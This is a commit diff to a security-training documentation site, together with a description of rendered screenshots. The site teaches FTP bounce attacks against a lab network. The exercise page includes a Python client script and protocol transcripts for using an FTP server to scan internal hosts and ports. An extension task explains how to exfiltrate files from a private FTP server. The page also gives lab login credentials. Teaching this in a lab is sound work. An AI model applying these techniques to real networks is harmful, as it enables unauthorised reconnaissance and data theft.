

Before and after one commit to 46bit/netscan-practical, a Sphinx documentation site: the page built from docs/exercise2.rst, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7, drawn with Linux system fonts in a browser that asks for light colours; formulas are drawn with MathJax 3; some of the changed text lies outside the part shown.

Commit message:
Finished planning Exercise 2 practicals, making model answers and checking viability.

```diff
--- a/docs/conclusion.rst
+++ b/docs/conclusion.rst
@@ -31,3 +31,5 @@ The key way to separate these things is Screened Subnets. This is where you have
 * Scanning the private network of the FTP server should have shown (at most) the other public webservers and nothing more important than that.
 
 The aim cannot be to keep attackers out of the entire network. Resourced attackers or those good at spearfishing will undoubtedly get inside your network. But you can try to separate different aspects of your network, to make an attacker's job much more difficult and give you a chance to spot them. Unlike a vulnerable FTP server sending someone on the Internet your secret blueprints.
+
+:ref:`ref_answers`
--- a/docs/exercise2.rst
+++ b/docs/exercise2.rst
@@ -8,6 +8,9 @@ In Exercise 1 we scanned a publicly-accessible server, and discovered it was run
 exercise we're going to abuse that FTP server to reconnoiter the private network it is connected to. Then
 we'll see if we can do anything useful to an attacker.
 
+``nmap`` is software built specifically for Network Scanning. Here we're repurposing legitimate services to
+scan networks we otherwise could not access.
+
 For the purposes of this Exercise we have revived a security issue from the mid-90s, where people started to
 use a design quirk of the FTP protocol in this manner. Modern exploits can deliver similar capabilities but
 tend to be much more complex, which would complicate this simple example.
@@ -16,63 +19,95 @@ tend to be much more complex, which would complicate this simple example.
 Design of The FTP Protocol
 ------------------------------------------------------------
 
-This gives a qualitative explanation of what FTP is and how it works. For full details (potentially useful
-for the Tasks below) see the :ref:`ref_ftp_reference`.
-
 FTP stands for File Transfer Protocol. It dates from 1971 but is still in widespread use. It is a standard
 for sharing files over the Internet - very much an old version of Dropbox or Google Drive. A typical session consists of an FTP client connecting to an FTP server on port 21. It then sends a login, e.g.
 ``USER student`` and ``PASS golyeeHug6``.
 
-Provided the server accepts these details, the client can then send commands. Such as deleting a file,
-``DELE file.txt``. They can also get data from the server. For commands which return data, such as a list of
-files in the current directory or the contents of a file, FTP uses a separate connection to send that data.
+Provided the server accepts these details, the client can then send commands. Such as deleting a file with
+``DELE file.txt``. If the deletion was successful, the server responds with a ``250 DELE command successful``
+message.
 
-The Client sends ``PORT A,B,C,D,P1,P2`` to indicate the IP Address A.B.C.D and Port P1P2 that the server can
-open the data connection to. Then the client can ask for a file list by sending ``LIST``. Or download a file
-by sending ``RETR file2.txt``. Or upload a file by sending ``STOR file3.txt``. In that last case, the server
-opens the Data connection and the client sends the data along it.
+************************************************************
+Data Connections
+************************************************************
 
-This feature also allows you to access services on the same private network as the FTP Server. You can
-specify any IP address and port in the ``PORT`` command - including ones you can't access on its local
-private network. Such as ``192.168.56.102``, which is in the private subnet.
+The ``DELE`` command results in a simple success or failure message. But if you're downloading or uploading
+file contents, FTP sends that data over a separate connection.
 
-Usefully for network scanning, the FTP Server tells you over the command port whether it was able to
-establish a data connection or not. But that's after opening a TCP connection and sending data that might
-be the contents of a file you uploaded.
+1. The Client sends ``PORT A,B,C,D,P1,P2`` to indicate the IP Address A.B.C.D and Port P1P2 that the server
+   could open a data connection to.
+2. The Client then sends a command which requires a data connection. Such as ``LIST`` for a list of files in
+   the current directory. Or ``RETR file2.txt`` to get the contents of the file ``file2.txt``. Or
+   ``STOR file3.txt`` to upload a file.
+3. The Server connects to the address specified by the previous ``PORT`` command, sends the data, and closes
+   the connection. For file uploads, the Server opens the connection and the client sends data and closes it.
 
-[EXCERPT]
+.. _ref_exercise2_ftp_bounce:
 
-FTP Bounce lets you send chosen TCP data to a specified IP Address and Port, and tells you whether a
-connection could be established. This lets you do lots of things useful for learning about someone's
-network:
+************************************************************
+FTP Bounce
+************************************************************
+
+There was no requirement for that ``PORT`` command to go to the Client's IP Address. You could send file
+contents anywhere the FTP Server could access. If the FTP server was connected to a private network, such
+as a home or corporate network, you could send data to hosts on that network.
+
+This tells you there isn't an FTP server running on 192.168.56.102::
+
+    Client: PORT 192,168,56,102,0,21
+    Server: 200 PORT command successful
+
+    Client: RETR evil_ftp_commands.txt
+    Server: 425 Unable to build data connection: Connection refused
+    Server: 450 LIST: Connection refused
+
+This tells you there is an FTP server running on 192.168.56.103::
+
+    Client: PORT 192,168,56,103,0,21
+    Server: 200 PORT command successful
+
+    Client: RETR evil_ftp_commands.txt
+    Server: 150 Opening ASCII mode data connection for file list
+    Server: 226 Transfer complete
+
+You just sent the contents of ``evil_ftp_commands.txt`` to the FTP server on 192.168.56.103, and it will run
+the contents as FTP commands. If you include a ``PORT`` command pointing to you, you can even have that FTP
+Server send you a list of files or their contents.
+
+This technique is named FTP Bounce, as you're bouncing requests off the FTP Server. With it you could:
 
 * Discover their internal servers.
 * Enumerate which services are running.
 * Interact with internal, private FTP servers.
 * Send commands to some shells and databases, but generally not read the output.
 
+For the following tasks, you will find this useful: :ref:`ref_ftp_reference`
+
 ------------------------------------------------------------
 Task 1: Experiment with FTP
 ------------------------------------------------------------
 
 In ``ftp/examples`` you'll find a number of Python scripts. These are examples of how to do various
-operations, as explained in `the FTP reference <ftp-reference.html#a-short-incomplete-but-useful-command-reference>`_.
+operations, as explained in :ref:`ref_ftp_reference`
 
-::
+1. Try saving some text as a file::
 
-    # Try uploading a file.
-    python3 examples/stor.py
+    examples/stor.py
 
-    # Try listing files in the current directory.
+2. Try listing files in the current directory::
+
     python3 examples/retr.py
 
-    # Try retrieving a file.
+3. Try retrieving a file::
+
     python3 examples/retr.py
 
-    # Try deleting a file.
+4. Try deleting a file::
+
     python3 examples/retr.py
 
-    # Try sending data to a another service.
+5. Try sending data to a another service::
+
     python3 examples/remote_port.py
 
 You'll notice these examples all print the commands moving back and forth. This is controlled by a
@@ -83,31 +118,63 @@ work.
 Task 2: Discover hosts on the internal network
 ------------------------------------------------------------
 
-Try adapting ``examples/remote_port.py`` to send data to port 22 of each IP Address on ``192.168.X.X``. So
-you'll want to iterate through ``192.168.0.1``, …, ``192.168.0.255``, ``192.168.1.0``, …, ``192.168.1.255``,
-…, ``192.168.255.255``. Make a list of which IP Addresses did connect, as these are the hosts on their
-private network.
+This is the provided ``examples/remote_port.py``::
+
+    import sys, os
+    sys.path.append(os.path.dirname(os.path.abspath(__file__)) + "/..")
+    from cp_ftp import FTP
+
+    ftp = FTP("192.168.56.101", debug=True)
+    ftp.send_login_commands("student", "golyeeHug6")
+
+    target_address = ("192.168.56.103", 21)
+    ftp.send_port_command(target_address)
+    response = ftp.recv_response()
+    if response.code != 200:
+      print(response)
+      sys.exit(1)
+
+    ftp.send_command("LIST")
+    response = ftp.recv_response()
+    if response.code != 150:
+      print(response)
+      sys.exit(1)
+
+    # No Data is received because it was sent somewhere besides this program!
+    response = ftp.recv_response()
+    if response.code != 226:
+      print(response)
+      sys.exit(1)
+
+    ftp.close()
+
+We'd like to quickly discover all hosts running on the ``192.168.0.X`` subnet. We could try every port on
+every host ``192.168.0.1`` through ``192.168.0.255``, but that's ``255 * 65,536 = 16,711,680`` attempts.
+
+To keep things quick, just check port ``22`` on each of those IP Addresses. To make things quicker, only scan
+from ``192.168.0.101`` to ``192.168.0.132``.
+
+Make a list of which IP Addresses connect successfully.
+
+Hint: You can see the difference between successful/unsuccessful under :ref:`ref_exercise2_ftp_bounce`. See whether code 150 was recieved.
+
+Hint: use a new ``FTP`` instance each time, and loop over each IP Address.
 
 ------------------------------------------------------------
 Task 3: Port scan discovered hosts
 ------------------------------------------------------------
 
-Now you're going to find what TCP services are running on a machine on the FTP Server's private network.
-Namely on ``192.168.56.102``. To do this, you'll want to detect successful vs unsuccessful openings of the
-data connection.
+Now you want to find out which services are running on the hosts we discovered. You can do this by trying
+each port from ``1`` to ``65,535``.
 
-Use the code from ``python3 examples/remote_port.py`` to access port ``22`` on ``192.168.56.102``, where SSH
-will be running. Note down the final response you get. Then try a random high port (e.g. 34989) and see what
-the response is when nothing is on that port.
-
-Now go try this for all ports from 1 to 65,535. Try searching what those port numbers correspond to, if
-anything. You can also use the ``RETR`` command to read anything the service outputs upon connecting into
-a file on the FTP server.
+To keep things quick, only try privileged ports (those from ``1`` to ``1023``).
 
 You should start to sense how you discover what is running, and get to look for options for attack.
 
+You may also be save the output from each service onto a file on the file on the FTP Server, using ``RETR``.
+
 ------------------------------------------------------------
-Task 4: Exfiltrate data from a private FTP server
+Extension Task: Exfiltrate data from a private FTP server
 ------------------------------------------------------------
 
 For our next task we want to retrieve secret files from this network's private FTP server. You may have
@@ -119,4 +186,9 @@ Here's the trick: you can send the contents of a file to the FTP server on port
 it'll interpret each line of the contents as a command. So you can tell it to do things. Like send you their
 secret weapon blueprints.
 
-`Conclusion → <conclusion.html>`_
+You could put a ``PORT`` command corresponding to a ``new_data_address`` into that file, then put ``LIST``.
+Then the ``192.168.56.102`` FTP server will send your computer a list of files you can get with ``ftp.recv_data()``.
+
+This is actually quite tricky to do with limited knowledge. But if you get it working, congratulations!
+
+:ref:`ref_conclusion`
--- a/docs/index.rst
+++ b/docs/index.rst
@@ -15,6 +15,7 @@ Contents:
     exercise2
     ftp-reference
     conclusion
+    answers
     licence
 
 Indices and tables
```
Also changed, not shown: docs/answers.rst (added, +104 -0 lines), 14 other files.
